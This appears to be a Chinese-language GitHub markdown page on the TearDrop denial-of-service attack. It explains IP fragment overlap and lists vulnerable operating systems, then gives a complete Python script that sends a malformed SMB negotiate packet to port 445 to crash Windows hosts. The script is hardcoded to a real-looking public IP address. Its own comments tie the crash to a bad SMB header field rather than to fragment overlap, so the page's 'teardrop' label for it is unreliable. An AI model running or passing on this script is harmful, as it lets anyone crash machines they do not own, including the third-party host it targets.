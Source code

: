 
# TearDrop 攻击

* 简介
* 攻击脚本
## 简介

> 主要针对早期微软操作系统（95、98、3.x、nt）  
  近些年有人发现对 2.x 版本的安卓系统、6.0 IOS 系统攻击有效

* 原理
> 使用 IP 分段便宜实现分段覆盖，接收端处理分段覆盖时可被拒绝服务
* 攻击效果
> 被攻击者蓝屏、重启、卡死

* Ping大包，比较正常分段与teardrop攻击流量的区别  
* 针对早期windows系统SMB协议的攻击
> teardrop_smb.py

* 针对Android.IOS 系统的攻击
> teardrop_androidios.py

* 攻击向量并不确定，要视具体协议分析
  

* 攻击目标
> 泪滴攻击是一种拒绝服务（DoS）攻击，涉及将碎片数据包发送到目标机器。由于接收这些数据包的机器由于TCP / IP碎片重组错误而无法重新组装，因此数据包相互重叠，导致目标网络设备崩溃。这通常发生在较早的操作系统上，例如Windows 3.1x，Windows 95，Windows NT和2.1.63之前版本的Linux内核。
  
> IP报头中的一个字段是“片段偏移量”字段，指示包含在分段数据包中的数据相对于原始数据包中的数据的起始位置或偏移量。如果一个分片数据包的偏移量和大小之和不同于下一个分片数据包的偏移量和大小之和，则数据包重叠。发生这种情况时，易受泪滴攻击的服务器无法重新组装数据包 - 从而导致拒绝服务状况。


## 攻击脚本
``` 
#!/usr/bin/python
# When SMB2.0 recieve a "&" char in the "Process Id High"
# SMB header field it dies with a
# PAGE_FAULT_IN_NONPAGED_AREA
# filename: teardrop-attack-smb.py

import sys
from socket import socket
from time import sleep

#host = sys.argv[1], 445
#host = "192.168.33.13", 445
host = "217.113.205.53", 445
buff = (
"\x00\x00\x00\x90" # Begin SMB header: Session message
"\xff\x53\x4d\x42" # Server Component: SMB
"\x72\x00\x00\x00" # Negociate Protocol
"\x00\x18\x53\xc8" # Operation 0x18 & sub 0xc853
"\x00\x26"# Process ID High: --> :) normal value should be "\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe"
"\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54"
"\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31"
"\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00"
"\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57"
"\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61"
"\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c"
"\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c"
"\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e"
"\x30\x30\x32\x00"
)
s = socket()
s.connect(host)
s.send(buff)
s.close()

```


